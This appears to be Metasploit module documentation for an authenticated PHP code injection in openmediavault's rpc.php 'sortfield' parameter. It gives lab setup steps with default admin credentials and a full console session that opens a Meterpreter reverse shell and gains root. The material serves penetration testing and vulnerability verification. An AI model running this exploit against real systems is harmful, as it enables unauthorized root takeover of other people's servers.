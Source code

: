 ## Vulnerable Application

### Description

  This module exploits an authenticated PHP code injection
  vulnerability found in openmediavault before 4.1.36 and 5.x before 5.5.12 
  inclusive in the "sortfield" POST parameter of "rpc.php" page, 
  because json_encode_safe is not used in config/databasebackend.inc. 
  Successful exploitation allows arbitrary command execution 
  on the underlying operating system as root.


### Installation And Setup

  1. Download the version 5.5.11 of OpenMediaVault (i.e. [openmediavault_5.5.11-amd64.iso ISO](https://deac-ams.dl.sourceforge.net/project/openmediavault/5.5.11/openmediavault_5.5.11-amd64.iso)).
  2. Set up a new Debian machine in VirtualBox or VMWare and load the ISO. 
  Follow the install prompts and note the `root` password you choose to use. 
  Once the installation is finished, press `<Enter>` to reboot the server.
  3. Log into via the terminal using the username `root` and the password 
  you set for the `root` user during installation.
  4. On the shell and run the command `ip a` to get the current IP address.
  5. Take the IP address and browse to the URL http://*IP ADDRESS*/, then log in
  with the default administrative credentials (`admin`:`openmediavault`).

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Scenarios

### OpenMediaVault 5.5.11
```
msf6 > use exploit/unix/webapp/openmediavault_rpc_rce
[*] Using configured payload linux/x86/meterpreter/reverse_tcp
msf6 exploit(unix/webapp/openmediavault_rpc_rce) > show options

Module options (exploit/unix/webapp/openmediavault_rpc_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD   openmediavault   yes       The OpenMediaVault password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The URI path of the OpenMediaVault installation
   URIPATH                     no        The URI to use for this exploit (default is random)
   USERNAME   admin            yes       The OpenMediaVault username to authenticate with
   VHOST                       no        HTTP server virtual host


Payload options (linux/x86/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic (Linux Dropper)


msf6 exploit(unix/webapp/openmediavault_rpc_rce) > set rhosts 192.168.56.108
rhosts => 192.168.56.108
msf6 exploit(unix/webapp/openmediavault_rpc_rce) > set lhost 192.168.56.105
lhost => 192.168.56.105
msf6 exploit(unix/webapp/openmediavault_rpc_rce) > exploit

[*] Started reverse TCP handler on 192.168.56.105:4444
[*] 192.168.56.108:80 - Authenticating with OpenMediaVault using admin:openmediavault...
[+] 192.168.56.108:80 - Successfully authenticated with OpenMediaVault.
[*] 192.168.56.108:80 - Trying to detect if target is running a supported version of OpenMediaVault.
[+] 192.168.56.108:80 - Identified OpenMediaVault version 5.5.11.
[*] 192.168.56.108:80 - Sending payload (150 bytes)...
[*] Sending stage (976712 bytes) to 192.168.56.108
[*] Meterpreter session 1 opened (192.168.56.105:4444 -> 192.168.56.108:38508) at 2020-10-07 01:16:01 -0400
[*] Command Stager progress - 100.00% done (799/799 bytes)

meterpreter > sysinfo
Computer     : 192.168.56.108
OS           : Debian 10.5 (Linux 5.7.0-0.bpo.2-amd64)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter > shell
Process 1499 created.
Channel 1 created.
id
uid=0(root) gid=0(root) groups=0(root)
```

